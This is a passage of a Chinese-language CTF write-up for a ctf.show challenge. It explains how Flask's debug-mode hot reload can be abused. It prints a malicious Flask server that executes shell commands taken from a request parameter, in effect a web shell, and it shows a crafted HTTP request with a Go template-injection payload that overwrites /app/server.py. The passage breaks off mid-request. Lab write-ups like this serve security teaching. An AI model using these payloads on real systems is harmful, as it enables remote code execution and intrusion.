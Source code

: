 * 热加载

通常，设置 `debug=True` 会启用 Flask 的调试模式，默认会激活 Werkzeug 的热加载功能。

```python
if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000, debug=True)
```

调试模式中的热加载功能会在代码发生更改时，自动重新加载 Flask 服务

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209213829479.png)

报错还提到了 PIN 控制台：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209214150902.png)

当 Flask 热加载功能启用时，每次重新加载会生成新的 PIN，用于保护调试控制台。

当前flask服务器路径为`/app/server.py`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209214344328.png)

看到这里思路也就清晰了

先通过admin路由go ssti覆盖写server.py，然后SSRF请求flask服务器执行server.py

恶意flask server：

```python
from flask import *
import os
app = Flask(__name__)

@app.route('/')
def index():
    name = request.args['name']
    file=os.popen(name).read()
    return file

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
```



写/app/server.py

```http
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.Header.Filename[0]),c.Request.Header.Filepath[0])}} HTTP/1.1
Host: efcbd611-8c54-4abc-a9ae-a74d2278a0da.challenge.ctf.show
Cookie: session-name=MTczMzc0NDkzM3xEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXx9VHD8fgMEvqUWF-KwBidg8If0fTSh8a3uZYJQX7HK8g==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://ctf.show/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
Content-Length: 421
Content-Type: multipart/form-data; boundary=01f54ee8f2872c8a0d42d14f70cdc1fe
Filename: file
```